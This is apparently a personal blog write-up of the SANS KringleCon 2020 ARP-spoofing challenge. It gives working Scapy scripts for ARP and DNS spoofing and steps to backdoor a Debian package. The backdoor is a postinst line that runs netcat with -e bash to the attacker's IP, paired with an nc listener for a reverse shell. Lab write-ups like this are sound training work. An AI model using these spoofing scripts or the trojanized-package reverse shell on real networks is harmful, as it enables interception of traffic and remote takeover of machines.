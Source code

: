 ```yaml
---
layout: post
title:  "ARP Sheganigans - SANS 2020 writeup"
date:   2020-12-21 19:59:44 +0100
categories: redteam python scapy kringlecon sans2020
---
```

At Kringlecon 2020 was there a network redteam objective. 

We get the knowledge of the evil Jack Frost that have taken over a box. We need to get access to the box to get to know who recused from the voting.

We get access to a console with three terminals. I used for. Read HELP.md for tips and tricks to use tmux (I love tmux now btw)

We also get a hint of what we need to do from the motd and by talking to Alabaster Snowball. 

So we need to do a ARP spoofing attack and then work from there.

We are provided with the following directory structure:

{% highlight bash %}
$ ls -R
.:
HELP.md  debs  motd  pcaps  scripts

./debs:
gedit-common_3.36.1-1_all.deb                      netcat-traditional_1.10-41.1ubuntu1_amd64.deb  unzip_6.0-25ubuntu1_amd64.deb
golang-github-huandu-xstrings-dev_1.2.1-1_all.deb  nmap_7.80+dfsg1-2build1_amd64.deb
nano_4.8-1ubuntu1_amd64.deb                        socat_1.7.3.3-2_amd64.deb

./pcaps:
arp.pcap  dns.pcap

./scripts:
arp_resp.py  dns_resp.py
{% endhighlight %}

We will build on the scripts in scripts in the script folder, but first let us look at the pcaps.

Use the following script to read and dump the pcaps. Copy them out and study the structure of the packets:

{% highlight python %}
from scapy.all import *
import sys

packets = rdpcap(sys.argv[1])

for packet in packets:
	packet.show()
{% endhighlight %}

We will make packets that looks like them when we edit our scripts.

Another tip is to have tshark/tcpdump running when developing and executing the scripts.

{% highlight bash %}
tshark -i eth0
{% endhighlight %}

The first part is to mimic an arp response to trick the other computer into thinking we are the DNS server.

The following scripts does that:
{% highlight python %}
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

# Our eth0 ip
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our eth0 mac address
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])

def handle_arp_packets(packet):
    #packet.show()
    #print(len(packet))
    # if arp request, then we need to fill this out to send back our mac as the response
    if ARP in packet and packet[ARP].op == 1:
        ether_resp = Ether(dst=packet.getlayer(ARP).hwsrc, type=0x806, src=macaddr)

        arp_response = ARP(pdst=packet.getlayer(ARP).psrc)
        arp_response.op = "is-at"
        arp_response.plen = 4
        arp_response.hwlen = 6
        #arp_response.ptype = 'IPv4'
        #arp_response.hwtype = 0x1

        arp_response.hwsrc = macaddr
        arp_response.psrc = packet.getlayer(ARP).pdst
        arp_response.hwdst = packet.getlayer(ARP).hwsrc
        arp_response.pdst = packet.getlayer(ARP).psrc

        response = ether_resp/arp_response
        #print('SENDING',response)
        #response.show()
        sendp(response, iface="eth0")

def main():
    # We only want arp requests
    berkeley_packet_filter = "(arp[6:2] = 1)"
    # sniffing for one packet that will be sent to a function, while storing none
    sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=1)

if __name__ == "__main__":
    #while True:
    main()
{% endhighlight %}

It is only needed to send one packet, but in the beginnig can it be nice to use the while True in the last part of the program

If you have tshark running at this point can you see that the other part now wants some DNS answers. Let us give the other part what he wishes:

{% highlight python %}
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid
import sys

# Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = sys.argv[1]

def handle_dns_request(packet):
    #packet.show()
    # Need to change mac addresses, Ip Addresses, and ports below.
    # We also need
    eth = Ether(src=macaddr, dst=packet.getlayer(Ether).src)   # need to replace mac addresses
    ip  = IP(dst=packet[IP].src, src=packet[IP].dst)                          # need to replace IP addresses
    udp = UDP(dport=packet[UDP].sport, sport=53)                             # need to replace ports
    dns = DNS(id=packet[DNS].id,qd=packet[DNS].qd,an=DNSRR(rrname=packet[DNS].qd.qname, type='A',ttl=82159,rdata=ipaddr),ra=1,qr=1)
    dns_response = eth / ip / udp / dns
    #eth.show()
    #ip.show()
    #dns_response.show()
    sendp(dns_response, iface="eth0")

def main():
    berkeley_packet_filter = " and ".join( [
        "udp dst port 53",                              # dns
        "udp[10] & 0x80 = 0",                           # dns request
        "dst host {}".format(ipaddr_we_arp_spoofed),    # destination ip we had spoofed (not our real ip)
        "ether dst host {}".format(macaddr)             # our macaddress since we spoofed the ip to our mac
    ] )

    # sniff the eth0 int without storing packets in memory and stopping after one dns request
    sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)

if __name__ == "__main__":
    while True:
        main()
{% endhighlight %}

Again, just keep this running so we always will give a response back if anyone want some DNS from us

Now can we see in tshark that the other part wants some http communication. Use the following tshark to only show tcp traffic:

{% highlight bash %}
tshark -i eth0 -f "tcp"
{% endhighlight %}

Lets use python to see what the other part wants

{% highlight bash %}
python3 -m http.server 80
{% endhighlight %}

Now can we see that the other part wants a deb file.

Luckily for us is there some deb files that can be modified and served.

I used the netcat one to create a reverse shell back to us. But first lets backdoor the debian package.

Do the following to unpack the package
{% highlight bash %}
cd ~/debs
mkdir tmp
dpkg-deb -R netcat-traditional_1.10-41.1ubuntu1_amd64.deb tmp
{% endhighlight %}

Now edit the DEBIAN/control to match the package name with the one that the other part requests. In my case suriv.

Now edit the DEBIAN/postinst and append the following:
{% highlight bash %}
/bin/nc <your ip here> 4444 –e /usr/bin/bash
{% endhighlight %}

Pack the package up again:
{% highlight bash %}
cd ~/debs
dpkg-deb -b tmp suriv_amd64.deb
{% endhighlight %}

Create the correct directory structure to serve the file from (See the output of the previous python3 -m http.server command)

Start the reverse shell

{% highlight bash %}
nc -lvp 4444
{% endhighlight %}

NOTE: If you not have done it already, remember to remove the while True part from the arp spoof. Else will it mess with your reverse shell.

Start serving the file and wait for the other part to fetch the file. You might need to run the arp spoof script more than once.

When you have shell access do a ls and notice the file. Dump the file to your computer, read it and win!
